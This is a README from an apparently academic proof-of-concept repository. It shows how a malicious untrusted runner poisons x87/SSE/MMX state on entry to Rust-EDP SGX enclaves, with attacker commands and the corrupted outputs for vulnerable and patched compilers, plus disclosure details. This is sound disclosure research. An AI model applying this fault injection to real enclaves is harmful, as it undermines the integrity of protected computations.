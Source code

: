 # Proof-of-concept exploitation with malicious runner

This directory includes a minimal PoC showcasing insufficient ABI sanitization
in Rust-EDP. The PoC shows that untrusted code controls x87 and SSE
configuration registers on enclave entry, which got fixed after our disclosure
in newer Rust-EDP versions. We furhtermore show that the initial fix did not
suffice and attackers could still override the expected result of an exemplary
x87 FPU computation with unexpected NaN outcomes. This too got fixed after our
disclosure in newest Rust-EDP versions.

## Rust-EDP installation

The untrusted runner is included in a fork of the rust-sgx repo, while the
trusted enclave runtime is part of the Rust compiler. Instructions below also
include how to easily switch between vulnerable and patched compiler versions.

### Install vulnerable Rust-EDP

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
source $HOME/.cargo/env
rustup default nightly-2020-02-01
rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
rustc --version

cd rust-sgx-fpu
git revert fb5cae4dbcafb4729fdf7852268e75b1e7e9182e # llvm_asm -> asm
cargo install --path ./fortanix-sgx-tools fortanix-sgx-tools
cargo install --path ./sgxs-tools sgxs-tools
echo >> ~/.cargo/config -e '[target.x86_64-fortanix-unknown-sgx]\nrunner = "ftxsgx-runner-cargo"'

# Check your SGX setup
sgx-detect

# Run the FPU poisoning enclave!
cd hello-world
cargo run --target x86_64-fortanix-unknown-sgx
```

### Vulnerable Rust-EDP version (SSE MXCSR + x87 control word + x87 tag)

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)

$ cargo run
    Finished dev [unoptimized + debuginfo] target(s) in 0.02s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

### Patched Rust-EDP version (x87 tag)

```bash
$ rustup default nightly
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly
$ rustc --version
rustc 1.46.0-nightly (feb3536eb 2020-06-09)

$ cargo run
   Compiling hello-world v0.1.0 (/home/jo/Documents/sgx-floats/pocs/rust-edp/hello-world)
    Finished dev [unoptimized + debuginfo] target(s) in 0.18s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

### Install latest (patched) Rust-EDP

```bash
rustup default nightly
rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
rustc --version
```

### FPUCW poisoning

To go to newest version:

```bash
$ rustup update
$ rustup default nightly
$ rustc --version
rustc 1.46.0-nightly (0c03aee8b 2020-07-05)
```

```
$ rustc --version
rustc 1.46.0-nightly (feb3536eb 2020-06-09)
jo@breuer:~/Documents/sgx-floats/pocs/rust-edp/hello-world$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
$ cargo run
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

$ fpu-runner --fpu 123 --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[attacker] poisoning FPUCW with 0x7b
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

## Disclosure and mitigation

We disclosed the core FPU sanitization issue in December 2019 which was addressed with a `ldmxcsr/csw` instruction [<https://github.com/rust-lang/rust/pull/69040>].

After further investigation, we found that this left the attacker open to perform the MMX attack as described in the paper. We also disclosed this issue and it is patched in the Rust compiler in version 1.46.0. The mitigation can be followed via this Pull Request [<https://github.com/rust-lang/rust/pull/73471>].
